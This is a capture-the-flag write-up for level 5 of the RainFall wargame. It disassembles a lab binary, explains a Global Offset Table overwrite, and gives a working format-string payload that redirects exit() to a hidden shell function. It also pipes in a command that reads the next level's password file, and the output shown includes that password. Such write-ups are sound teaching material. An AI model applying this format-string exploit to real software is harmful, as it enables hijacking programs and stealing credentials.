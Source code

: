 # Level 5

- Once logged in, you will see a binary `level5`

```
[???] ssh level5@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level5@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Once running the binary, it does the same thing as level 4.

```
level5@RainFall:~$ ./level5
aaaaaaaaaaaa
aaaaaaaaaaaa
level5@RainFall:~$
```

let's take a look at the assembly:

```
gdb-peda$ info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
0x080485cc  _fini
```

there are three function declared in the program, so let's take a look at each

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
gdb-peda$
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

gdb-peda$ x 0x8049848
0x8049848 <stdin@@GLIBC_2.0>:	0x00000000
gdb-peda$ x/s 0x80485f0
```

```
gdb-peda$ disass o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
gdb-peda$

gdb-peda$ x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```

by decompile the code, on `n` function, the exit() is called, we can replace the address call of `exit()` to `o()`.
Below is the explanation of GOT:
```
ref: https://www.mattandreko.com/2012/02/02/exploit-exercises-protostar-format-4/

What initially caught my eye was the fact that there was a call to “exit()” as well as “_exit()“. This made me think back to my reading, and I realized it was going to be a GOT (Global Offset Table) overwrite on “exit()”. When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions. The first time it runs that function, it will cache the memory address in the GOT, so that it doesn’t have to ask libc, or the corresponding library each time. If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function. In this case, our victim is “exit()”.
```

The memory address of `exit()` can be acquired by using `objdump`

```
level5@RainFall:~$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

The only thing left is to overrite value `0x080484a4 -> address of o()` into `0x08049838 ->exit()`'s address, by format string explicit used on printf, the same technique used by last problem.

```
Python 3.10.4 (v3.10.4:9d38120e33, Mar 23 2022, 17:29:05) [Clang 13.0.0 (clang-1300.0.29.30)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x080484a4
134513828
>>>
```
We know `0x80484a4` is `134513828` in decimal, that needs to be written on `0x08049838` -> `\x38\x98\x04\x08`


```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
```

with waiting priting multiple spaces...

the flage will be given.

```
[...]
                              200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
level5@RainFall:~$
```
